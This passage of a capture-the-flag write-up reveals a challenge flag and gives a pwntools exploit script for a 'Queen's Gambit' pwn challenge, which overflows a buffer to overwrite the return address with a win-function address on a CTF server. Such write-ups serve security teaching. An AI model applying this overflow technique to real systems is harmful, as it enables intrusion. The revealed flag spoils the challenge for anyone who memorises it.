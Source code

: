 As you can see from the comments, the flag is `flag{f0ll0w_th3_whit3_r@bb1t}`. I had to keep restarting the program because sometimes the connection would reset.
I suspect that either the server was overloaded or we were connecting and disconnecting too frequently/quickly. I had no idea of what to do other than put a `sleep` somewhere and I had places to be so just rerunning the script with the updated variable was the path I chose. Sorry, servers!

## Queen's Gambit (Pwn) - 125 points {#Queens-Gambit}

This was an interesting Pwn challenge since it required a lot more reverse engineering than is usual. I'll include the cleaned-up version of my exploit script and try to explain it afterwards.

```python
from pwn import *

context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.binary = elf = ELF('./chess')

def conn():
    if args.REMOTE:
        return remote("challenges.ctfd.io", 30458)
    else:
        return process()

r = conn()
if not args.REMOTE and not args.NO_GDB:
    gdb.attach(r)
    pass

WIN_ADDR = 0x004011c2
SOLUTIONS = [b'Ra1', b'Qg7', b'Kd2']

# banner
r.recvlines(5)
# piece
r.recvlines(12)
# banner2
r.recvlines(6)
# menu
r.recvlines(5)
print(r.recvline())

# debug for GDB attach
pause()

# menu opt
r.sendline('1')
# name
r.send(b'A'*15)

# enter puzzle 1

# Detecting EIP overrun
# payload = cyclic(122)
# eip_offset = cyclic_find(0x61616174)
eip_offset = 76

r.sendline(SOLUTIONS[0])
# We need to fill the 'message' buffer with more characters so that memset is called with a larger length and inserts the null bytes we need and can't send using p64
r.sendline(SOLUTIONS[1] + b' ' + b'C'*(eip_offset + 16))
r.sendline(SOLUTIONS[2] + b' ' + b'B'*(eip_offset) + p64(WIN_ADDR))

r.interactive()

```